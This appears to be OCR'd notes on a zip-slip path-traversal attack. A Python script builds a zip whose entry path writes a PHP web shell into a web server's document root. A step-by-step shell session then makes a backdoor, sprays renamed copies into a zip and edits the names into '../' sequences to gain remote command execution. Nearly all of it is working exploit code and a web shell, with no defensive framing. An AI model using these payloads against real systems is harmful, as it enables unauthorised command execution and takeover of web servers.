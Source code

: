 
## python code to create a malicious zip
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.writestr('otherfile.xml', 'Content of the file')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close() 

create_zip()

```

* To achieve remote command execution I took the following steps:
1. Create a PHP shell:
```php
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>

```

2. Use “file spraying” and create a compressed zip file:
```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
  adding: xxAcmd.php (deflated 40%)
  adding: xxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
root@s2crew:/tmp#

```
3. Use a hexeditor or vi and change the “xxA” to “../”, I used vi:
```bash
:set modifiable
:%s/xxA/..\//g
:x!

```
Done!

